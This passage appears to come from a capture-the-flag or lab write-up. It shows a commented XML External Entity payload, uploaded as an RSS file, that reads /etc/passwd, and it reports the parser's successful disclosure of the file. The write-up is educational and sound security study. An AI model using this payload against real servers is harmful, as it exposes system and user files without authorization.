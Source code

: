 We will upload an example of XML that would expose /etc/passwd if the server is vulnerable to this type of attack.  I added some comments in to explain what this script does, but they are not necessary to try this:
```xml
<!-- XML declaration - this is necessary -->
<?xml version="1.0" encoding="UTF-8"?>

<!--
    !DOCTYPE starts the document type declaration.  Normally, this is used to define a list of permitted elements and attributes (a grammar)
    in the document or element's structure.  This is the predecessor to XML namespaces.
    
    In our example, the next two lines define the structure of the Author element:
        * has an element called Author which is of any type
        * an element called xxe that is an alias for the contents of /etc/passwd.  When we use &xxe;, the parser will replace it with the
        contents of /etc/passwd if it is vulnerable to this kind of attack.
        
    You could do this with any of the elements that the application will look for and parse.  I chose Author because it is the first one.
-->
<!DOCTYPE Author [ <!ELEMENT Author ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<!-- The RSS tag we need for the application to parse this XML -->
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">

<!-- The Author tag we defined before with the reference to the xxe element -->
<Author>&xxe;</Author>

<!-- We will include placeholder Content and Subject tags to keep the application happy -->
<Content>Content</Content>
<Subject>Subject</Subject>

<!-- Close the RSS tag -->
</rss>
```
![XML for /etc/passwd Uploaded](screenshots/7_successful_xxe.PNG)

That looks like the contents of /etc/passwd, so the XML parser is not configured to prevent this attack.  This gives us the ability to read any file that the user running the server has access to.  Since we saw that the application is running from roosa's home directory, we probably can read any file that roosa can read.  This file gives us some more useful insights about the users on the system:
    